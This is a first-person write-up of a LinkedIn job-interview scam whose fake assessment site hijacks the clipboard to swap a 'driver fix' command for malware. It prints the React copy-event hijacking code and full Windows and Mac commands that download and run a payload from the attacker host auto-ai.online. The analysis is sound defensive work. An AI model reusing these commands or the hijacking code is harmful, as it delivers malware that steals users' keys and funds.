# Anatomy Of A Job Interview Scam

This is the story of a sophisticated job interview scam that happened to me via LinkedIn using social engineering and a heavily obfuscated clipboard hijacking to push a malicious payload.

I spotted the scam pretty quickly and tried to schedule a phone call or video interview to see how far this scam goes but aside from a LinkedIn conversation (which honestly could have been with an LLM) couldn't directly get in touch with the scammers. I am sharing this to serve as a warning to other and provide ways you can protect yourselves as AI tooling makes attacks such as this further possible to bad actors online.

I have written the story in the section below, but if you just want to see the technical details of the attack then scroll down to [Technical Details](#technical-details).

# Story

I received a message on LinkedIn from a profile with the name [Aftab Habib](https://www.linkedin.com/in/aftab-habib-965479297/) claiming that they're recruiting for a Portfolio Manager at [Galaxy Digital](https://www.galaxy.com/):



Right off that bat this seemed a bit sus. No actual job description. I check Galaxy's career section and do not see this "fully remote portfolio manager" job. Alright, let's see how far deep the rabbit hole goes.

I message back to ask for a job description, here it is.




Honestly that looks kind of legit! I'm sure it's lifted from elsewhere and ran through some gpt.

Then he sends me a message to butter me up which is clearly copy/pasted from ChatGPT where he has fed my LinkedIn profile.


Alright, there is a link to some website called "talentpreview360.com". Head over to ICANN and look it up:



Looks only a few months old. Registrar is "Hostinger Operations, UAB" which apparently is an ICANN-accredited registrar based in Lithuania. Never heard of it, but OK let's proceed.

I spin up a VM and go to the link. This is what I'm greeted with:




Fill in and go to the "questions":





Honestly, for what is surely a scam at this point these questions sound kind of legitimate.

And now we reach the scam part. I just didn't know it yet. There's a request for a "brief video introduction". When you hit record within 2 second it errors out. I'm confused as to what's happening. I click on "How to Fix" but nothing really stands out. I notice that right-click and keyboard shortcuts for opening the console are all disabled.



I message our homeboy Aftab to see what's going on.



Alright, makes sense. I run Linux. The VM was an Ubuntu 24.04. Small market to target. Time to go to Windows.

Now on Windows the "How to Fix" looks like this:



You see the "Need to keep the drivers to up-to-date!"?

THAT'S A BIG FAT NO-NO for anyone reading this to open a terminal and run some command. I'm looking for all the ways that command is malicious, and it doesn't quite stand out to me yet. Looking for some naughty business in the "download.microsoft.com" and can't see any immediately.

**I copy the "legitimate" command and paste it into a text editor...**

**💥 BOOM! 💥**

**Here's what actually got copied:**

`curl -k -o "%TEMP%\fixed.zip" "https://auto-ai.online/cam-v-257.fix" && powershell -Command "Expand-Archive -Force -Path '%TEMP%\fixed.zip' -DestinationPath '%TEMP%\fixed'" && wscript "%TEMP%\fixed\update.vbs"`

Now that my friends, looks sus af 🚨.

That's the scam. A clipboard hijack to "fix your drivers" which would download a zipped payload from a remote server auto-ai.online and run on your machine.

If you want to get into the weeds of what the actual attack might be, then read on below in the [Technical Details](#technical-details)

# Final Words

As of now the profile of our LinkedIn Premium member / aspiring scammer [Aftab Habib](https://www.linkedin.com/in/aftab-habib-965479297/) is still up. I presume he'll block me immediately upon seeing this. I plan to report his profile to LinkedIn + [Galaxy Digital](https://www.linkedin.com/company/galaxyhq) that there are scammers impersonating their staff (doubt it'll be news to them, however). Lastly, I plan to report his bogus registrations to Hostinger see how they respond.

If you can think of anything else I should be doing, please do let me know! I really wish I could've scheduled a video call with Aftab to have a lovely chat about his operation.

Now if you've read this far, read this section too:

# How To Keep Yourself Safe

This is some general advice I can give you that would be relevant in any online interaction nowadays:

- NEVER copy/paste commands from anyone. Period. If you must, type it in after you thoroughly inspect it. Also running it through an LLM would be a good idea to make sure you didn't miss anything.
- If someone is reaching out to you on an open platform like LinkedIn or X where any monkey can open an account, only respond if they're able to email you from a legitimate corporate email account. Email headers are spoofable as well, but it's a bit more difficult and would be almost impossible to have a back and forth conversation via email.
- Use reputable job platforms and verify company legitimacy. Check the company's website for the actual opening instead of accepting documents or job postings in messages.
- Be extremely suspicious of "driver updates" or "software installations" during interviews. Read a cautionary tale [here](https://slowmist.medium.com/seeing-is-deceiving-analysis-of-fake-zoom-meeting-phishing-attack-3b0138e13e49).

"Hacking" used to be predominantly finding vulnerabilities in servers or locally accessible mal-configured devices. Now it seems that social engineering is a huge part of the attack surface. I am generally super paranoid, but I can see that with some more sophistication even I could've possibly slipped at some point. Especially now that audio/video can be faked with AI, you need to be super suspicious of online interactions even with people you think you know.

# Technical Details

From a technical standpoint it's not the most sophisticated attack out there, but it's reasonably well-executed and the malicious code is heavily obfuscated that you would not pick it out right off the bat. Obviously if you're a non-technical person then all of this will likely go over your head.

I have saved the files in the [git repo](https://github.com/kavehtehrani/job_offer_scam) if you want to check it out for yourself.

## Attack Vector

The scam presents itself as a legitimate job interview platform with professional-looking branding, then asks the candidate to complete "technical assessments" and video interviews. The last question asks for a video interview that is designed to fail. Then they want you to "update drivers" which is when users are shown commands that appear legitimate but are actually replaced with malicious payloads when copied to clipboard.

On Windows the after the camera "errors out" after a couple of seconds, a "How to Fix" popup shows this command to run:

`curl -L "https://download.microsoft.com/download/graphics-driver-update.exe" -o driver-update.exe && driver-update.exe /silent`

While a technical person would likely be alerted already at this stage, I presume the average user is greatly comforted by the presence of 'microsoft.com' in that domain. When you copy/paste the command, the command that actually gets copied is

`curl -k -o "%TEMP%\fixed.zip" "https://auto-ai.online/cam-v-257.fix" && powershell -Command "Expand-Archive -Force -Path '%TEMP%\fixed.zip' -DestinationPath '%TEMP%\fixed'" && wscript "%TEMP%\fixed\update.vbs"`

Not so friendly now. I presume the average user who wouldn't open a terminal would just copy/paste and hit enter without thinking about it twice.

### Clipboard Hijacking Mechanism

The attack uses a React application that implements clipboard hijacking through a `useEffect` hook:

**ACTUAL Clipboard Hijacking Code** (found in `page5_files/index-CXN-5r39.js.download`, line 164):

```javascript
S.useEffect(() => {
  const l = (u) => {
    if (!window.getSelection()) return;
    const d = i === "win" ? r.windows : r.mac;
    u.clipboardData &&
      (u.clipboardData.setData("text/plain", d), u.preventDefault());
  };
  return (
    document.addEventListener("copy", l),
    () => {
      document.removeEventListener("copy", l);
    }
  );
}, [r, i]);
```

**How the Attack Works:**

1. **Setup**: `S.useEffect` sets up a copy event listener when the component mounts
2. **Event Interception**: When user copies (Ctrl+C), the function `l` is triggered
3. **Platform Detection**: `const d = i === "win" ? r.windows : r.mac` selects the appropriate malicious command based on the user's platform
4. **Clipboard Replacement**: `u.clipboardData.setData("text/plain", d)` replaces the clipboard content with the malicious command
5. **Prevention**: `u.preventDefault()` prevents the original legitimate text from being copied
6. **Cleanup**: The effect returns a cleanup function that removes the event listener

**The Deception:**

- User sees: `curl -L "https://download.microsoft.com/download/graphics-driver-update.exe" -o driver-update.exe && driver-update.exe /silent`
- User copies the command (appears legitimate)
- JavaScript secretly replaces clipboard with: `curl -k -o "%TEMP%\fixed.zip" "https://auto-ai.online/cam-v-257.fix" && powershell -Command "Expand-Archive -Force -Path '%TEMP%\fixed.zip' -DestinationPath '%TEMP%\fixed'" && wscript "%TEMP%\fixed\update.vbs"`
- User pastes and executes the malicious payload unknowingly

**Obfuscation Techniques:**

The code is heavily obfuscated with lots of redundancies and nonsensical variable names. All whitespaces are also removed compressed into a single line. Right-click and opening of console via keyboard shortcuts is also disabled. The malicious code is also mixed with genuine React applicable code to make it harder to detect.

## Malicious Code Analysis

### Windows Payload

The malicious command that gets executed on Windows systems:

1. Downloads a malicious ZIP file from `auto-ai.online/cam-v-257.fix`
2. Extracts it to the Windows temp directory
3. Executes a VBS script (`update.vbs`) that contains the actual malware payload

### Actual Malware Analysis (from fixed.zip)

I loaded a VM and downloaded the malicious payload. A screenshot of the zip file's content is below:



**What the VBS script does:**

1. **Stage 1:** Extracts `dll.zip` using `tar -xf` command
2. **Stage 2:** Executes `chost.exe audiodriver.py` (runs in background)
3. **Obfuscation:** Uses string concatenation to hide commands (`"ch" & "ost.exe"`)
4. **Stealth:** Runs commands with hidden windows (`0` parameter)

There's a couple compiled binaries in there which is safe to assume are likely looking for anything to get their hands one, e.g. API keys, seed phrases, etc.

I looked at the python code, and they're putting in registry entries to start the binaries at startup, so this is malicious payload will be scanning the system continuously for anything of value.

### Mac Payload

The malicious command that gets executed on Mac systems:

```bash
curl -k -o "/tmp/fixed.zip" "https://auto-ai.online/cam-v-257.fix" && unzip -o "/tmp/fixed.zip" -d "/tmp/fixed" && chmod +x "/tmp/fixed/update.sh" && "/tmp/fixed/update.sh"
```

I didn't download the Mac payload but safe to assume it operates similarly.
